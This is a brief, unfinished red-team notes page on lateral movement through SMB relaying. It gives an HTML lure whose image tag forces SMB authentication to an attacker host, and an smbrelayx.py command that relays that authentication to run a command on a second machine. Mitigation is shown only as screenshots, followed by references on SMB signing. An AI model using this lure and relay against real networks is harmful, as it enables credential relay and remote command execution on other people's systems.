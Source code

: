 # Lateral Movement via SMB Relaying

{% hint style="warning" %}
WIP
{% endhint %}

## Execution

{% code-tabs %}
{% code-tabs-item title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

![](../.gitbook/assets/peek-2018-12-30-22-31.gif)

## Mitigation

![](../.gitbook/assets/screenshot-from-2018-12-30-22-56-39.png)

![](../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc785861\(v=ws.10\)" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc728025\(v=ws.10\)" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}



